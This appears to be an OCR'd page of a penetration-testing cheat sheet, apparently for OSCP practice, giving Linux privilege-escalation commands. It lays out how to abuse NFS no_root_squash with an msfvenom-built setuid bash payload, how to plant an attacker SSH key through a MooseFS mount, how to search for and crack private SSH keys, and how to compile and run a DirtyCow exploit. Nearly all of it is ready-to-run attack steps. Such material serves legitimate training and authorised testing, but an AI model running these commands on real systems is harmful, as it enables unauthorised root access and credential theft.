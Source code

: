 ```bash
cat /etc/exports # Look for no_root_squash or no_all_squash
showmount -e targetip
mkdir /tmp/mount
mount -o rw targetip:/backups /tmp/mount
# or
mount -t nfs ip:/var/backups /tmp/mount # use targetip:/ to mount all shares if multiple were available

# Using msfvenom to create a payload
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/mount/shell.elf
chmod +xs /tmp/mount/shell.elf
ls -l /tmp/mount/shell.elf
./shell.elf

# Alternative using a simple executable
gcc nfs.c -static -w -o nfs
# or
# put bash suid there
```

## **MooseFS Exploitation**

```bash
mkdir -p /mnt/folder
mfsmount /mnt/folder -H ip

# Check for .ssh folder
# If present, generate SSH key pair and move .pub to /mnt/folder/.ssh/authorized_keys
ssh-keygen
mv ~/.ssh/id_rsa.pub /mnt/folder/.ssh/authorized_keys

# Try to identify username and SSH using key
ssh -i id_rsa user@ip
# or
# Try the above NFS method
```

## **Finding Hidden Files and DIRTYCOW Exploitation**

```bash
# Look for hidden files
ls -la /var/backups

# Check everything including processes, internal ports, and config files
# Config files may contain passwords

# Look for root private SSH keys
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
# Copy/paste contents to Kali
chmod 600 id_rsa
ssh -i id_rsa root@ip # Crack the password using John

# DIRTYCOW exploit
# Exploit in ~/stuffs/oscp/c0w.c
gcc c0w -w -pthread -o cow
./cow
/usr/bin/passwd
```
